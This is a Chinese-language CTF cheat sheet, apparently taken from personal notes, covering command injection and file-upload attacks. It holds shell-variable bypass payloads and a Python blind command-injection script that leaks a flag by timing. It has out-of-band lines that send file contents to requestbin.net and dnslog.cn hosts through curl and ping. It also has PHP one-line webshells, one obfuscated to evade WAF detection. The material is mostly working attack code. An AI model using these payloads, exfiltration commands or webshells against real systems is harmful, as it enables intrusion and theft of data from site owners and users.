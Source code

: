 ```php
${PHP_CFLAGS:3:3}//cat
${PWD::${#SHLVL}}???${PWD::${#SHLVL}}?${USER:~A}? ????.???
$? //上一次执行的命令，1为不正常，0为正常
<A;${HOME::$?}???${HOME::$?}?????${RANDOM::$?} ????.???#可能存在成功的机会，不断刷新
```
![20220608021618](https://s2.loli.net/2022/06/08/tnSLOwqyuvQXAl7.png)

## 命令盲注
脚本：
```py
import requests
import time
import string
str=string.digits+string.ascii_lowercase+"-"
result=""
key=0
for j in range(1,45):
    #print(j)
    if key==1:
        break
    for n in str:
        payload="if [ `cat /f149_15_h3r3|cut -c {0}` == {1} ];then sleep 3;fi".format(j,n)
        url="http://5fd5973f-3879-413f-9bfc-f3913f618e5f.challenge.ctf.show/?c="+payload
        try:
            requests.get(url,timeout=(2.5,2.5))
        except:
            result=result+n
            print(result)
            break
```
## oob
```php
1.?F=`$F`;+curl -X POST -F xx=@flag.php  http://生成的域名
//xx是上传文件的name值，可随便写。flag.php就是上传的文件,前面要加@表示是文件
2.?F=`$F`;+curl  http://requestbin.net/r/1puo0jq1?p=`cat test.php` 
3.ping `cat flag.php|awk 'NR==2'`.6x1sys.dnslog.cn
nl flag.php|awk "NR==16"|tr -cd "[a-z]"/"[0-9]"//注意前面会有行号
awk //选择行
tr //选择符合正则表达式的输出，过滤{},-等特殊符号
```
# 十、文件上传
一句话木马：
```php
eval("echo%20phpinfo();");//注意eval里一定要有引号和分号结束，以及echo不能再接引号了，否则要转义
$poc="a#s#s#e#r#t"; $poc_1=explode("#",$poc); $poc_2=$poc_1[0].$poc_1[1].$poc_1[2].$poc_1[3].$poc_1[4].$poc_1[5]; $poc_2($_GET['s'])//过狗一句话
```
## 后缀名绕过
1.%00截断
2.py
```py
import os
os.system('find /* |grep flag')
```
## 路径绕过
```
./ ../ /
在文件名后面加/
```